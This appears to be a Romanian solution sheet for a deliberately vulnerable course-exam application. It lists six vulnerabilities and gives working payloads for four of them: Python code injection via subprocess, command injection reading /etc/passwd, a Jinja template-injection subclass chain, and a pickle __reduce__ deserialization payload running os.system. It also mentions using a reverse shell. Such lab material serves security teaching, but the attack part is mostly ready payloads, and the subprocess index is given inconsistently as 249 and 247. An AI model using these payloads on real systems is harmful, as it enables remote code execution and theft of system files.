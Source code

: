 Aplicatie lasata intentionat vulnerabila pentru examenul de la cursul SSP de la facultate: Am acoperit 6 vulnerabilitati:



python -O -m py_compile main.py
Python2.
Rezolvare:

1.Python code injection:
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution:
test || cat /etc/passwd

3.Template injection:
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[249]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization:
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)

5. xss:

6. LFI

